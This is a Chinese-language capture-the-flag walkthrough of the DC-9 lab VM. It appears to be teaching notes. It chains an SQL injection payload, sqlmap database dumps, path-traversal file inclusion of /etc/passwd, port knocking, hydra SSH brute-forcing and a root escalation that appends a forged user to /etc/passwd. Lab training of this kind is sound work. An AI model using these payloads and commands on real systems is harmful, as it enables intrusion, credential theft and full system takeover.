







DC-8的drupal不想再做了...

DC系列的最后一个靶机~

**环境配置**
导入OVA 运行后改NAT

**靶机ip**
192.168.136.168


## 信息收集
nmap -A -sC -sV -p1-65535 192.168.136.168 

nmap -A -p22 192.168.136.168 

发现ssh端口关闭

访问 http://192.168.136.168/ 也收集不到CMS相关的信息

whatweb扫一扫 也只能知道是 Apache[2.4.38]

我们手动测试审计CMS

在search处可能存在sql注入漏洞
PoC验证: 1' or 1=1 #
发现可以打印出全部信息
说明存在SQL注入漏洞且没有waf

也可以用AWVS扫出SQL注入漏洞 (演示)
kali:  https://kali2021:13443/




直接sqlmap一把梭
是POST请求 复制后sqlmap启动
sqlmap -r post.txt --batch --dbs

得到database
```
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```

先dump Staff库的数据
sqlmap -r post.txt --batch -D Staff --tables

sqlmap -r post.txt --batch -D Staff -T Users --dump

得到了admin的md5密码 856f5de590ef37314e7c3bdf6f8a66dc
md5解密 [在线网站](https://www.somd5.com/)

得到 `transorbital1`

尝试ssh登录
ssh admin@192.168.136.168 
还是无法连接

在Manage处用 admin transorbital1 登录

登录后点一圈(模拟审计)
发现没有可以利用的getshell的点

但是注意到这里


结合网站开发时 一般都会用
```php
include("footer.php");
```

来渲染页底 所以猜测这里也存在文件包含
再次猜测这里参数名是file GET传参

PoC: ?file=../../../../../../etc/passwd
成功包含

然后查看发现没有admin用户... 所以ssh是连接不上的

接下来最自然的思路就是想要文件包含getshell

但是有几个点
- Apache服务器的日志位置不确定
- 写入webshell的位置不确定
- 没有pearcmd.php可以利用 (不是docker环境)

所以这条路也基本封死了


注意到前面的数据库我们还有user这个database没有dump
回去dump看看有没有/etc/passwd中显示的用户的密码

sqlmap -r post.txt --batch -D users --tables

sqlmap -r post.txt --batch -D users -T UserDetails --dump

dump得到的用户与/etc/passwd匹配！ (往下翻翻)

那我们的思路就比较明确了

靶机一共开了两个端口
80端口我们得到了数据库的账密信息 那么接下来的思路就是把ssh的20端口打开然后ssh连接getshell



搜索发现有可能是Knockd隐藏了ssh端口 (看后面备课准备情况这里可以加入对原理的介绍分析 水时长)


我们查看一下靶机的Knockd配置
配置文件在 /etc/knockd.conf
我们文件包含查看
../../../../../../etc/knockd.conf

```
[options]
	UseSyslog

[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

接下来我们用nmap进行敲门打开ssh端口
for x in 7469 8475 9842; do nmap -p $x 192.168.136.168; done



成功打开ssh端口

接下来想要ssh登录 但有个问题 这么多账密，手动测试显然不现实
直接上hydra爆破ssh

hydra -L username.txt -P password.txt 192.168.136.168 ssh -t 30

找到
```
[22][ssh] host: 192.168.136.168   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.136.168   login: janitor   password: Ilovepeepee

```


第一个转了转没啥用
试试第二个

尝试suid提权
find / -user root -perm -4000 -print 2>/dev/null

扫出了 chfn和chsh
这是有CVE能够提权的


但是 查看靶机linux内核版本

uname -a
`Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux`

发现是4.19 所以chfn和chsh提权用不了
sudo -l也不行

应该是存在其他有权限的用户

继续信息收集

ls -al

查看隐藏文件
发现 `.secrets-for-putin`
ls后发现 passwords-found-on-post-it-notes.txt
发现得到几个新的密码

我们加入到password.txt后继续hydra爆破
hydra -L username.txt -P password.txt 192.168.136.168 ssh -t 30

爆出来新的用户和密码

fredf B4-Tru3-001

ssh登录

发现有sudo -l了


可以利用这个文件提权 /opt/devstuff/dist/test/test

查看看看
cat发现是乱码
file看发现是ELF可执行文件

直接运行提示
```
Usage: python test.py read append
```

返回 /opt/devstuff/dist/test/test 的上级目录 /opt/devstuff 查看
ls -al

发现 test.py
cat 查看py文件

这段代码根据命令行参数，读取一个文件的内容，并将其追加到另一个文件中。如果命令行参数不符合要求，将打印出用法信息。


**提权**
我们可以利用这个python代码将一个文件的内容读取后追加到另一个文件的功能
仿照/etc/passwd的格式 我们自己构造一个具有root权限的用户

我们使用openssl工具创建一个本地的加密用户，命令
```shell
openssl passwd -1 -salt admin admin
```

得到 $1$admin$1kgWpnZpUx.vTroWPXPIB0

然后把它按照passwd的格式送到 /tmp/user

```shell
echo 'admin:$1$admin$1kgWpnZpUx.vTroWPXPIB0:0:0::/root:/bin/bash' >> /tmp/user
```

使用sudo命令执行test文件将/tmp/user的内容写入到/etc/passwd文件中

```shell
sudo /opt/devstuff/dist/test/test /tmp/user /etc/passwd

B4-Tru3-001
```

添加成功后我们

su admin
admin

即可获得root权限


Finished!